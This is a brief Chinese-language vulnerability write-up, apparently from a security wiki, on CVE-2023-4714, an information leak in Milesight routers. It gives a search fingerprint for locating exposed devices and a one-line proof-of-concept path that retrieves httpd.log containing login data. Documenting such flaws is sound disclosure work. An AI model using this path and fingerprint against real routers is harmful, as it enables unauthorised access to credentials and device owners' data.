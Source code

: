 # Milesight Router httpd.log 信息泄漏漏洞 CVE-2023-4714

## 漏洞描述

Milesight Router  存在信息泄漏漏洞，攻击者通过访问httpd.log可以获取登陆敏感日志信息

## 漏洞影响

<a-checkbox checked>Milesight Router </a-checkbox></br>

## 网络测绘

<a-checkbox checked>"rt_title"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697779377252-ccc6a6ae-9be6-4ec8-af2a-38744a3d16f6-20231108132518357.png)

验证POC

```php
/lang/log/httpd.log
```

![img](../../../.vuepress/public/img/1697779477490-d9ab1bcd-fbeb-4c20-aefa-500c7128a9a3-20231108132522561.png)